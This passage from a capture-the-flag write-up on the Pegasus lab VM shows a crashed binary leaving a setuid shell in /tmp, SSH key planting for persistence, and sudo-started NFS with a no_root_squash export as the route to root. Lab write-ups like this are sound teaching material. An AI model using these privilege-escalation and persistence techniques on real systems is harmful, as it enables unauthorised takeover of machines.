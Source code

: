 ```bash
[2] String replay
[3] String reverse
[4] Exit

Selection: 
Enter first number: Enter second number: Error details: ����

                     10
Segmentation fault (core dumped)

# ... and check /tmp
mike@pegasus:~$ ls -lah /tmp/
total 108K
drwxrwxrwt  2 root root 4.0K Dec 23 23:17 .
drwxr-xr-x 22 root root 4.0K Nov 19 02:58 ..
-rwsrwxrwx  1 john mike  98K Dec 23 23:17 tojohn
mike@pegasus:~$
```

We have a new file `tojohn` in `/tmp` :D

```bash
mike@pegasus:~$ /tmp/tojohn 
$ id
uid=1001(mike) gid=1001(mike) euid=1000(john) groups=1000(john),1001(mike)
```

## hoofing (rooting) Pegasus
I added the public key of the keypair I generated for Pegasus to `john`'s authorized_keys file and proceeded to SSH in as him.

Quick enumeration showed that `mike` is allowed to start the nfs daemon via `sudo`:

```bash
john@pegasus:~$ sudo -l
Matching Defaults entries for john on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on this host:
    (root) NOPASSWD: /usr/local/sbin/nfs
john@pegasus:~$ sudo nfs
Usage: nfs [start|stop]
john@pegasus:~$ sudo nfs start
 * Exporting directories for NFS kernel daemon...                                                                                                                                 [ OK ] 
 * Starting NFS kernel daemon                                                                                                                                                     [ OK ] 
john@pegasus:~$
```

I checked out the `/etc/exports` file, and noticed the the `no_root_squash` flag for the `/opt/nfs` export. This is most certainly the way to root Pegasus as nfs will not go and nobody my files :)
